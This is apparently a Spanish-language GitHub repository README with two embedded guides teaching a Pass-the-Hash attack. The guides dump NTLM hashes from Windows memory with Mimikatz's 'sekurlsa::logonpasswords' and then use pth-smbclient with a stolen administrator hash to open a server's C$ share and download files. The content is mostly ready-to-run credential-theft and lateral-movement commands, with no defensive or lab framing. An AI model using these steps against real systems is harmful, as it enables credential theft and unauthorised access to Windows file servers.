 # Pass The Hash con SMBClient

Este repositorio explica cómo utilizar **Pass The Hash (PtH)** para acceder a recursos compartidos SMB en un servidor Windows, extrayendo el hash NTLM desde un equipo Windows y utilizando `pth-smbclient` en una máquina Kali Linux.

## Requisitos
- Acceso a un equipo Windows con privilegios de administrador.
- Una máquina Kali Linux con `pth-toolkit` instalado.
- Conocimientos básicos de PowerShell y Linux.

## Guías
1. [Extraer el hash NTLM en Windows](extract-hash-windows.md)
2. [Usar pth-smbclient en Kali Linux](pth-smbclient-kali.md)

## Scripts
- [Script de PowerShell para extraer hashes con Mimikatz](Scripts/mimikatz-extract-hash.ps1)
- [Script de ejemplo para usar pth-smbclient](Scripts/pth-smbclient-example.sh)

## Contribuciones
Si encuentras algún error o tienes sugerencias, ¡no dudes en abrir un issue o enviar un pull request!

---

### **2. extract-hash-windows.md**
Guía detallada para extraer el hash NTLM en Windows usando Mimikatz.

```markdown
# Extraer el hash NTLM en Windows

## Requisitos
- Privilegios de administrador en el equipo Windows.
- Herramienta [Mimikatz](https://github.com/gentilkiwi/mimikatz).

## Pasos

1. **Descargar Mimikatz:**
   - Descarga Mimikatz desde su [repositorio oficial](https://github.com/gentilkiwi/mimikatz).

2. **Ejecutar Mimikatz como administrador:**
   - Abre una ventana de PowerShell como administrador.
   - Navega a la carpeta donde descargaste Mimikatz y ejecuta:
     ```powershell
     .\mimikatz.exe
     ```

3. **Extraer hashes NTLM:**
   - Dentro de Mimikatz, ejecuta los siguientes comandos:
     ```bash
     privilege::debug
     sekurlsa::logonpasswords
     ```
   - Busca el hash NTLM del usuario administrador en la salida. Ejemplo:
     ```
     NTLM Hash: 32ED87BDB5FDC5E9CBA88547376818D4
     ```

4. **Guardar el hash:**
   - Anota el hash NTLM para usarlo en Kali Linux.

## Ejemplo de salida de Mimikatz
![Mimikatz Output](images/mimikatz-output.png)
```

---

### **3. pth-smbclient-kali.md**
Guía para usar `pth-smbclient` en Kali Linux.

```markdown
# Usar pth-smbclient en Kali Linux

## Requisitos
- Hash NTLM del usuario administrador.
- Herramienta `pth-toolkit` instalada en Kali Linux.

## Pasos

1. **Instalar pth-toolkit:**
   - Abre una terminal en Kali Linux y ejecuta:
     ```bash
     sudo apt update
     sudo apt install pth-toolkit
     ```

2. **Autenticarse con pth-smbclient:**
   - Usa el siguiente comando para acceder al servidor:
     ```bash
     pth-smbclient //IPDelServidor/RecursoCompartido -U Usuario%HashNTLM
     ```
   - Ejemplo:
     ```bash
     pth-smbclient //192.168.1.10/C$ -U Administrador%32ED87BDB5FDC5E9CBA88547376818D4
     ```

3. **Navegar por los archivos:**
   - Usa comandos como `ls`, `cd`, y `get` para explorar y descargar archivos.

## Ejemplo de salida de pth-smbclient
![pth-smbclient Output](images/pth-smbclient-output.png)
